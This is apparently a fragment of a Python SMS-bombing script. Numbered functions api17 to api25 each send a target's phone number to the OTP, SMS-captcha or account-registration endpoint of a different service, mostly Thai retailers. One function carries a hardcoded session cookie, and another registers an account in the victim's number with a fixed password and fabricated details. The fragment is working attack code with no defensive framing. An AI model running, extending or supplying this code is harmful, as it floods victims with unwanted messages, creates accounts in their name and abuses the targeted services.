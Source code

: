     

def api17(phone):

    post("https://www.berlnw.com/reservelogin",data={"p_myreserve": phone}, headers={"Host": "www.berlnw.com", "Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "Save-Data": "on", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "https://www.berlnw.com/myaccount", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "th-TH,th;q=0.9,en;q=0.8", "Cookie": "berlnw=s%3AaKEA2ULex-QQ7U6jr0WCQGs-Mz3eJFJn.RsAXcleV2EVFN4j%2BPqDivbqSYAta0UYtyoM65BrxuV0; _referrer_og=https%3A%2F%2Fwww.google.com%2F; _first_pageview=1; _jsuid=4035440860; _ga=GA1.2.766623232.1635154743; _gid=GA1.2.1857466267.1635154743; _gac_UA-90695720-1=1.1635154743.CjwKCAjwq9mLBhB2EiwAuYdMtU_gp7mSvFcH4kByOTGf-LsmLTGujv9qCwMi1xwWSuEiQSOlODmN-RoCMu4QAvD_BwE; _fbp=fb.1.1635154742776.771793600; _gat_gtag_UA_90695720_1=1"})

    

def api18(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value":phone,"country":"66"},"type":"mobile"})

    

def api19(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-{phone}")

    

def api20(phone):

    post("https://shop.foodland.co.th/login/generation", data={"phone": phone})

    

def api21(phone):

    post("https://jdbaa.com/api/otp-not-captcha", data={"phone_number":phone})

    

def api22(phone):

    post("https://unacademy.com/api/v3/user/user_check/",json={"phone":phone,"country_code":"TH"},headers={}).json()

def api23(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", data={"phone": phone})

    

def api24(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"})

    

def api25(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})
